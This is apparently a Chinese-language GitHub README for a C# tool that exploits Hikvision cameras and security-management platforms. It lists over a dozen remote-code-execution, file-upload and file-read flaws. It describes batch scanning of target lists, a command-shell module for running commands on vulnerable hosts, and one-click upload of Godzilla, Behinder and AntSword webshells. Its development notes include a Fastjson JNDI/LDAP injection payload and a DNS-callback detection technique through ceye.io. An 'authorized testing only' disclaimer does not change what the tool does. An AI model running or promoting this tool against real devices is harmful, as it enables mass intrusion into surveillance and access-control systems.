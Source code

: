 # Hikvision综合漏洞利用工具

没事写个工具，
程序采用C#开发,
首次使用请安装依赖：
NET8.0
声明：仅用于授权测试，用户滥用造成的一切后果和作者无关
请遵守法律法规！

https://dotnet.microsoft.com/zh-cn/download

海康威视综合漏洞利用工具 收录漏洞如下：

Hikvision 摄像头未授权访问漏洞

Hikvision 远程代码执行漏洞

Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台config信息泄露漏洞

Hikvision综合安防管理平台env信息泄漏漏洞

Hikvision综合安防管理平台report任意文件上传漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision applyCT命令执行漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

Hikvision keepAlive远程代码执行漏洞

Hikvision综合安防管理平台orgManage任意文件读取漏洞

Hikvision综合安防管理平台files任意文件读取漏洞

# 功能介绍

批量检测模块：

模块如下：Hikvision 远程代码执行漏洞

Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台config信息泄露漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision综合安防管理平台env信息泄漏漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

webshell利用模块
Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台report任意文件上传漏洞

cmshell命令执行模块
Hikvision 远程代码执行漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

# 功能使用

默认模块可一键扫描所有漏洞

![image](https://github.com/MInggongK/Hikvision-/blob/main/e10adc3949ba59abbe56e057f20f883e.jpg)

选择模块可单独选择你要检测的模块，输入目标，点击选择模块即可检测漏洞

批量检测内置路径：/hikvision.txt
hikvision.txt文本放入你要检测的网站列表
默认批量检测，批量扫描所有模块的漏洞

选择模块，可单独选择你要检测的模块，点击选择模块即可

Cmdshell模块：
选择模块进行漏洞验证，如果存在，在cmdshell输入你要执行的命令即可

webshell利用模块：

内置Godzilla
Behinder
AntSword
cmd
四种类型的shell
一个测试文件

具体使用方法：选择模块进行验证
如isecure center
如果漏洞存在
可选择内置类型，如测试文件
点击getshell isecure上传即可



自定义上传
如果存在isecure漏洞
可自定义shell代码，
选择自定义模块
如自定义isecure
填入你要的shell代码，文件名，如demo.jsp
点击自定义上传即可

# 编写小记
Hikvision applyCT ceye api精准识别技巧
目前已取消，考虑到批量识别可能会阻塞网络，因此没有采取这个方法
{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://"\",\"autoCommit\":true},\"hfe4zyyzldp\":\"=\"}
默认
默认插入POST json数据进行测试
访问api:
查找id:
id	"1870408864"
这里存在一个问题
如果dns缓存不清除，可能存在误判
{"meta": {"code": 200, "message": "OK"}, "data": [{"id": "1870408864", "name": "", "remote_addr": 
这里会造成误判，DNS缓存清除需要cookie
那么怎么不使用COOKIE解决这个问题呢？
可以直接在调用前，产生随机数
   Random random = new Random();
    int randomNumber = random.Next(1, 100); // 生成一个1到100之间的随机整数
   Console.WriteLine(randomNumber);
然后进行拼接：然后直接赋给   randomNumber + "." + textBox4.Text;
这样每一次生成都是会递增的循环产生随机数
如9090.38.22.xxxx.ceye.io
2222.9090.38.22.xxxx.ceye.io
3422342.9090.38.22.xxxx.ceye.io
通过访问API token,会查找ID值进行判断
http://api.ceye.io/v1/records?token=“token&type=dns&filter=
  if (s.Contains(3422342.9090.38.22.xxxx.ceye.io))
   {
比对发出的请求：
如96.93.13.4.90.38.22.2skv3a.ceye.io
没发出一次，自动生成1次，这样就判断精准了
取随机不断的递增，再递增去比较存在的值
如果找到，就存在漏洞，否则漏洞不存在
但是这个只适用于单个识别，批量识别还需要写另外验证方法

# 更新日志

Hikvision综合漏洞利用工具 v1.7版
增加了批量指纹识别功能
默认识别Server识别
set-Cookie识别
放入你要检测的批量网站，点击识别即可
![image](https://github.com/MInggongK/Hikvision-/blob/main/gjdfgdg.jpg)

增加了Hikvision综合安防管理平台orgManage任意文件读取漏洞检测（含批量检测）
增加了Hikvision综合安防管理平台files任意文件读取漏洞检测（含批量检测）
感谢ling1uan提到的issues问题，修复了report漏洞构造请求体的Bug











